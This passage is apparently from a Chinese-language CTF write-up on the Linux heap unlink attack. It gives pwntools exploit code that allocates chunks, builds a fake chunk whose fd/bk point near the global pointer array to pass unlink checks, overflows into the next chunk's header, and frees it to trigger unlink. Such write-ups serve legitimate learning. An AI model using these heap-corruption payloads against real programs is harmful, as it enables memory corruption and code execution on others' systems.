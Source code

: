```python
    shell.send(cont)
    shell.recvuntil("OK\n")

def free(idx):
    shell.sendline("3")
    shell.sendline(str(idx))
    shell.recvuntil("OK\n")
```

fill函数的没有对输入进行限制，但是读入的方法不是gets那种，他读到换行符不会结束，会把换行符也当作一种输入，然后继续等待接下来的输入，而sendline在末尾会有换行符，所以我们采用末尾不带有换行符而是相当于带有\x00的send。

首先我们申请内存

```python
alloc(0x100) #1
alloc(0x30)  #2
alloc(0x80)  #3
```

我们用gdb在0x400CB6处下个断点`b *0x400CB6`，开始执行选项1进行空间分配，分配完之后看到我们的指针的数组globals(0x602140)处，发现确实是从globals[1]开始记录我们分配的head

![image-20220921181932845](LinuxUnlink%E6%94%BB%E5%87%BB%E6%8A%80%E6%9C%AF%E5%AD%A6%E4%B9%A0.assets/image-20220921181932845.png)

这里我们的思路为分配3个空间，**在第二个空间溢出**，让**02 chunk and 03 chunk 合并**, unlink.

那我们就需要伪造chunk

```
unlink的验证则要求fd->bk == P && bk->fd == P
```

首先我们使用head变量记录globals的起始位置

```python
head = 0x602140 # 

#fake chunk
chunk_fd = head + 0x10 -0x18 #pass check
chunk_bk = head + 0x10 -0x10 #pass check

payload = p64(0)            #padding
payload += p64(0x31)        #size (chunk1 not affect,30 or 31 bath pass)
payload += p64(chunk_fd)    # chunk2 - 0x18
payload += p64(chunk_bk)    # chunk2 - 0x10
payload += p64(0)           #padding
payload += p64(0)           #padding

payload += p64(0x30)        #overwrite chunk3's prev_size
payload += p64(0x90)        #overwrite chunk3's size

fill(2, payload) #overwrite chunk3
# a = input() //sh: gdb -p 端口
free(3) #unlink
```
